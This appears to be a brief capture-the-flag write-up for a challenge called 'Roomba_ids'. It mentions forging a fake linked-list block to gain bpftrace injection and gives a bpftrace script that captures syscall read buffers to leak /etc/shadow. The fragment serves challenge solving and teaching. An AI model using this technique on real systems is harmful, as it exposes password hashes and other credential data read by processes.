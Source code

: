 ## Roomba_ids
The attack requires the player to make a fake block in the linked list.
They can get a bpftrace injection, for which they should do something like this to leak /etc/shadow:
```tracepoint:syscalls:sys_enter_read{@ld = args.buf;}
tracepoint:syscalls:sys_exit_read{ @m[tid] = str(@ld)}```
